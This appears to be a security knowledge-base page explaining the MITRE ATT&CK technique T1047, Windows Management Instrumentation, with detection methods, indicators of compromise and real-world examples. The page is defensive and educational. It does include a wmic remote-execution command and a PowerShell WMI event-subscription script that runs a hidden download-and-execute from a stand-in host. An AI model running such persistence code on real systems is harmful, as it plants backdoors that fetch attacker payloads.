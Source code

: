 ```yaml
---
description: Windows Management Instrumentation [T1047]
icon: window
---
```


# Windows Management Instrumentation

## Information

* Name: Windows Management Instrumentation
* ID: T1047
* Tactics: [TA0002](./)

## Introduction

Windows Management Instrumentation (WMI) is a built-in Microsoft Windows management technology used by administrators for system monitoring, management, and configuration. In the MITRE ATT\&CK framework, adversaries leverage WMI as a powerful technique (T1047) for lateral movement, persistence, privilege escalation, and remote code execution. Attackers exploit WMI due to its legitimate usage in enterprise environments, making malicious activities harder to detect and distinguish from normal administrative tasks.

## Deep Dive Into Technique

WMI is a core Windows component that provides a standardized interface for accessing system information and performing administrative tasks remotely or locally. It operates via the Common Information Model (CIM), allowing scripts and applications to query and manipulate system resources.

Technical Execution Methods and Mechanisms:

* **Remote Command Execution:**
  * Attackers utilize WMI's remote capabilities to execute commands or scripts on remote systems via `wmic.exe` or PowerShell cmdlets.
  *   Example command for remote command execution:

      ```powershell
      wmic /node:<target_machine> process call create "cmd.exe /c malicious_script.bat"
      ```
* **Persistence via WMI Event Subscriptions:**
  * Attackers create persistent backdoors using WMI event subscriptions, which trigger malicious scripts or executables upon specific system events.
  * WMI event subscriptions consist of three components:
    1. **Event Filter:** Defines the event condition to trigger the subscription.
    2. **Event Consumer:** Specifies the action to execute (e.g., script execution).
    3. **Filter-to-Consumer Binding:** Links the event filter and consumer.
  *   Example of malicious WMI event subscription creation via PowerShell:

      ```powershell
      $filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{Name='MaliciousFilter'; EventNamespace='root/cimv2'; QueryLanguage='WQL'; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime'"}
      $consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name='MaliciousConsumer'; CommandLineTemplate='powershell.exe -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString(''http://malicious.domain/payload.ps1'')"' }
      Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter=$filter; Consumer=$consumer}
      ```
* **Privilege Escalation:**
  * Attackers exploit WMI to escalate privileges by invoking processes or scripts under contexts with higher privileges.
* **Reconnaissance and Information Gathering:**
  * WMI queries allow attackers to enumerate system details, installed software, running services, and user accounts.

## When this Technique is Usually Used

Attackers commonly employ WMI at various stages of the cyber kill chain, including:

* **Execution Stage:**
  * Remotely running malicious scripts or executables on compromised hosts.
* **Persistence Stage:**
  * Creating persistent backdoors via WMI event subscriptions, allowing attackers to maintain access after system reboots.
* **Privilege Escalation Stage:**
  * Leveraging WMI to execute processes or scripts under elevated privileges.
* **Lateral Movement Stage:**
  * Utilizing remote WMI execution to propagate malware or move laterally across the network.
* **Reconnaissance Stage:**
  * Gathering detailed system information, installed software, and network configurations.

## How this Technique is Usually Detected

Detection of malicious WMI activities involves monitoring, logging, and analyzing system events and behaviors. Detection methods include:

* **Event Log Monitoring:**
  * Monitor Windows Event Logs for suspicious WMI-related events:
    * Event ID 5857 (WMI-Activity/Operational): Indicates WMI provider execution.
    * Event ID 5861 (WMI-Activity/Operational): Indicates errors or unusual WMI provider activity.
* **Sysmon Monitoring:**
  * Utilize Sysinternals Sysmon to log WMI event subscriptions:
    * Event ID 19: WmiEventFilter activity.
    * Event ID 20: WmiEventConsumer activity.
    * Event ID 21: WmiEventConsumerToFilter activity.
* **Behavioral Anomaly Detection:**
  * Detect unusual WMI queries or remote WMI executions that deviate from normal administrative patterns.
  * Correlate WMI activities with other suspicious indicators, such as abnormal network connections or process creations.
* **Endpoint Detection and Response (EDR) Tools:**
  * Deploy EDR solutions capable of detecting and alerting on suspicious WMI usage patterns, execution of scripts, and remote process creation.

Indicators of Compromise (IoCs):

* Presence of suspicious WMI event subscriptions (unusual event filters or consumers).
* Execution of unusual or obfuscated PowerShell commands via WMI.
* Unusual network traffic initiated from WMI-related processes (`wmiprvse.exe`).
* Abnormal execution of `wmic.exe` or PowerShell scripts invoking WMI classes.

## Why it is Important to Detect This Technique

Timely detection of malicious WMI activities is crucial due to the significant potential impacts on systems and networks, including:

* **Persistence and Long-Term Access:**
  * Attackers can maintain stealthy persistence through WMI event subscriptions, making remediation challenging.
* **Privilege Escalation:**
  * Exploiting WMI for privilege escalation can provide attackers with administrative privileges, leading to broader system compromise.
* **Lateral Movement:**
  * Leveraging WMI for lateral movement allows attackers to propagate malware across multiple systems rapidly.
* **Data Exfiltration and System Compromise:**
  * Attackers can utilize WMI to execute malicious payloads, enabling data theft, ransomware deployment, or complete system control.
* **Stealth and Evasion:**
  * Malicious WMI usage blends with legitimate administrative activities, complicating detection and response.

Early detection enables security teams to:

* Quickly contain and remediate incidents, minimizing damage.
* Prevent attackers from establishing long-term footholds in the environment.
* Reduce risk of data breaches, financial losses, and reputational damage.

## Examples

Real-world examples of attacks leveraging WMI include:

* **APT29 (Cozy Bear):**
  * Utilized WMI event subscriptions for persistence and remote command execution.
  * Created WMI event subscriptions triggering malicious PowerShell payloads to maintain stealthy persistence.
* **FIN7 Cybercrime Group:**
  * Employed WMI for lateral movement and remote command execution across compromised networks.
  * Leveraged WMI to execute PowerShell scripts downloading additional malware payloads.
* **TrickBot Malware:**
  * Utilized WMI commands to enumerate system information and facilitate lateral movement.
  * Executed reconnaissance commands via WMI to identify valuable targets within compromised networks.
* **NotPetya Ransomware:**
  * Leveraged WMI alongside other lateral movement techniques (such as SMB) to propagate ransomware rapidly across networks.

Tools and Techniques Used in Real-world Scenarios:

* **PowerShell Empire Framework:**
  * Provides built-in modules for creating WMI event subscriptions and executing remote commands via WMI.
* **Metasploit Framework:**
  * Includes modules leveraging WMI for remote command execution and persistence.
* **Cobalt Strike:**
  * Implements WMI-based lateral movement and persistence mechanisms for red team operations.

Impacts Observed in Real-world Attacks:

* Persistent compromise and stealthy backdoors.
* Rapid lateral movement and propagation of ransomware or malware.
* Privilege escalation leading to full network compromise.
* Extensive data exfiltration and sensitive information theft.
* Operational disruption and significant financial losses to targeted organizations.
